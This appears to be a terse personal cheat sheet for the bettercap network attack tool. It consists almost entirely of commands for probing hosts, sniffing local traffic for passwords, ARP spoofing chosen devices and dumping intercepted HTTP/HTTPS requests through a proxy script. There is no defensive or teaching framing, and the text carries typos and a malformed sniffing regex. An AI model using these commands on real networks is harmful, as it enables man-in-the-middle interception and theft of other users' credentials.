# bettercap 
swiss army knife for network attacks and monitoring

```
betttercap -iface wlan0
```

## detect host and sniff
this will send various probe packages each ip order

```
net.probe on
net.show on
net.sniff on
```

## password sniffing
```
set net.sniff.local true
set net.sniff.regxp '*password=.+'
set net.sniff.verbose 'true'
```

## set ticker
```
set ticker.commands 'net.show'
ticker.period <second>
ticker on
```

## arp spoof
```
set arp.spoof.targets <device>
arp.spoof on
net.show
```

## lost internet
```
events.stream off
net.probe on
sleep 1
net.probe off

set net.sniff.verbose false
set net.sniff.filter tcp port 443
net.sniff on
```

## use this proxy script to dump request
```
set http.proxy.script http-req-dump.js
set https.proxy.script http-req-dump.js

http.proxy on
https.proxy on
arp.spoof on
```
